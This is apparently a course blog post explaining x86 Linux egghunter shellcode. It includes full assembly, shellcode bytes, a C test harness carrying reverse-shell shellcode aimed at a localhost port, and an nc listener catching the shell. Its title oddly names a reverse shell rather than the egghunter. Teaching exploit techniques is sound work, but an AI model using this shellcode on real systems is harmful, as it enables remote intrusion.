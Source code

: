 ```yaml
---
layout: post
title: Linux x86 TCP Reverse Shell
tags: [slae]
---
```


This is the third assignment for the SLAE which is creating an Egghunter. So what is an Egghunter and why is it useful? Perhaps you have a buffer overflow but space is limited on the buffer and you're unable to fit all of your shellcode in one spot. What do you do? Well an egghunter could be the solution to your problem. 

An egg is simply a marker than can be set in front of your shellcode and then looked for in memory by an egghunter. Generally your egg should be unique and repeated twice. The reason for the repetition is to avoid the egghunter from recognizing itself during the search and jumping to the wrong spot. Once the egg is found by the egghunter, it simply jumps to your shellcode for execution. 

So how is this accomplished? Well the famous paper by Skape goes into detail on a few different techniques that can be used. Please check out that resource [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

For the purposes of this writeup we'll be utilizing the sigaction(2) method since it is the most efficient. We'll be using the sigaction() syscall to verify valid memory addresses to search for our egg in.

First let's take a look at the sigaction() syscall in the man pages.


```
NAME
       sigaction - examine and change a signal action

SYNOPSIS
       #include <signal.h>

       int sigaction(int signum, const struct sigaction *act,
                     struct sigaction *oldact);
```

We can see that sigaction takes three arguments, `signum` will be in EBX, the `act` pointer in ECX and `oldact` point in EDX. 

If we look further down in the man page we see the following:

```
ERRORS
       EFAULT act  or oldact points to memory which is not a valid part of the
              process address space.
```

What this means is that we can use the `act` pointer as a way to check for valid addresses in memory. If we check for an address that is not valid we'll get an `EFAULT` error returned. 

So for the purposes of our needs, we'll be putting in various memory addresses in ECX to have sigaction() check if its valid or not. If the memory is valid (`EFAULT` is not returned in EAX) then we'll search it for our egg. 

To get started we'll need to find the syscall number for sigaction() which is defined as 67 in `/usr/include/i386-linux-gnu/asm/unistd_32.h` on our Ubuntu box.

We'll also need to know the return value for an `EFAULT` which can be found in `/usr/include/asm-generic/errno-base.h` as 14.

Now that we have a way to search for valid memory we'll need a method to search for our egg efficiently. To accomplish this we'll utilize the SCASD assembly instruction which will compare EAX to a DWORD value located in EDI and set status flags for the result. If the comparison is a success the ZF (zero flag) will be set in EFLAGS.

After the comparison is ran, EDI will be automatically incremented by 4. This incrementation allows us to call SCASD again to do the second check to verify our egg has been found (remember we repeat the egg twice). If both of the SCASD checks pass then we'll know we've found our shellcode and we can JMP directly to EDI, which will have automatically be incremented to the start of our shellcode thanks to SCASD.

A summary on what needs to happen.

- We first need to set the ECX register to the bottom of the memory address space for sigaction to check. Page sizes in Linux x86 are 4096 which in hex is 0x1000, this contains nulls so to avoid this we'll need to first put 4095 into ECX then increment by 1 to get what we want.

- We then need to execute sigaction and check for the EFAULT return value.

- If EFAULT is returned we need to increment the memory page address and rerun sigaction.

- If EFAULT is not returned we know we have a valid address, so we load our egg in EAX, move the current valid address we want to check (currently stored in ECX) to EDI and run SCASD to check if we have a match.

- If there is no match, we need to increment our memory address and redo the process.

- If there is a match, we'll need to check for our egg again with SCASD.

- If there is no match, increment the memory address and redo the process again. If it is a match, we've found our egg and can jump to EDI for execution.


## Final Assembly Code

```nasm
global _start

section .text
_start:

next_page:

	or cx,0xfff            ; set cx to 4095

next_address:

	inc ecx			; increment to 4096	
	push byte +0x43         ; sigaction()
	pop eax                 ; put syscall in eax
	int 0x80                ; execute sigaction()
	cmp al,0xf2             ; check for EFAULT
	jz next_page            ; if EFAULT jump to next page in memory
	mov eax, 0x50905090     ; move EGG in EAX
	mov edi, ecx            ; move address to be checked by scasd
	scasd                   ; is eax == edi? if so edi is incremented by 4 bytes
	jnz next_address        ; if not try with the next address
	scasd                   ; check for second half of EGG
	jnz next_address        ; if not try with next address
	jmp edi                 ; if EGG is found again, jmp to shellcode

```

## Testing the Code

First we'll need to compile and extract our egghunter shellcode.

```
absolomb@ubuntu:~/SLAE/assignments/3$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/3$ for i in $(objdump -d egghunter |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
```

Once that is done a simple C program can be used along with our shellcode for the TCP reverse shell from the previous post.

```c
#include<stdio.h>
#include<string.h>


#define EGG "\x90\x50\x90\x50"

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8"
EGG
"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

// Reverse Shell on 127.1.1.1 port 1234
unsigned char code[] = \
EGG EGG
"\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	
	printf("Egghunter Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```

Notice in the code we aren't calling our reverse shell shellcode directly, only the egghunter. We can use any payload we like, we just have to make the modifications to the `code` variable.  

Let's compile and test.

```
absolomb@ubuntu:~/SLAE/assignments/3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/3$ ./egghunter
Egghunter Length:  30
Shellcode Length:  84
```

In another terminal we catch our shell

```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 48094)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>